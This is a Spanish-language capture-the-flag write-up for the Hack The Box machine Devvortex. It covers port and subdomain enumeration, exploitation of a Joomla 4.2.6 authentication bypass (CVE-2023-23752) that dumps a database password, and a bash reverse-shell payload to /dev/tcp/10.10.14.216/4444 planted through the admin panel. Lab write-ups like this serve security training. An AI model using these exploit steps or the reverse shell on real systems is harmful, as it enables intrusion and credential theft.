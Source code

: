 # Devvortex - Easy

IP=10.10.11.242

```bash
echo "$IP devvortex.htb" | sudo tee -a /etc/hosts
```

## Escaneo de puertos

```bash
nmap -sV $IP
Starting Nmap 7.93 ( https://nmap.org ) at 2023-12-15 23:25 CET
Nmap scan report for 10.10.11.242
Host is up (0.043s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.76 seconds
```

> Dos puertos abiertos, ssh y http.

## Enumeración

### Enumeracion de directorios

```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://devvortex.htb
```

> No se encuentra nada interesante.

### Enumeracion de subdominios

```bash
gobuster vhost -w /usr/share/spiderfoot/dicts/subdomains-10000.txt -u http://devvortex.htb
```

> Hemos encontrado un subdominio: `dev.devvortex.htb`

```bash
echo "$IP dev.devvortex.htb" | sudo tee -a /etc/hosts
```

### Enumeracion de directorios en el subdominio

```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://dev.devvortex.htb

```

> Se ha encontrado un panel de login en /administrator corriendo Joomla.

### Buscar version en Joomla

```bash
joomscan -u http://dev.devvortex.htb
```

> La version es 4.2.6

### Buscar exploits en searchsploit

> He encontrado un exploit que permite hacer un bypass de la autenticacion. [https://github.com/Acceis/exploit-CVE-2023-23752](https://github.com/Acceis/exploit-CVE-2023-23752)

### Ejecutar el exploit

```bash
gem install httpx docopt paint
```

```bash
# Ejecutamos el exploit
ruby exploit.rb http://dev.devvortex.htb
```

```text
Users
[649] lewis (lewis) - lewis@devvortex.htb - Super Users
[650] logan paul (logan) - logan@devvortex.htb - Registered

Site info
Site name: Development
Editor: tinymce
Captcha: 0
Access: 1
Debug status: false

Database info
DB type: mysqli
DB host: localhost
DB user: lewis
DB password: P4ntherg0t1n5r3c0n##
DB name: joomla
DB prefix: sd4fg_
DB encryption 0
```

### Pones netcat a la escucha

```bash
nc -lvnp 4444
```

### Añadimos la reverse shell en el panel de administracion

system('bash -c "bash -i >& /dev/tcp/10.10.14.216/4444 0>&1"');

### Una vez dentro, nos conectamos a la base de datos

```bash
mysql -u lewis -p
```
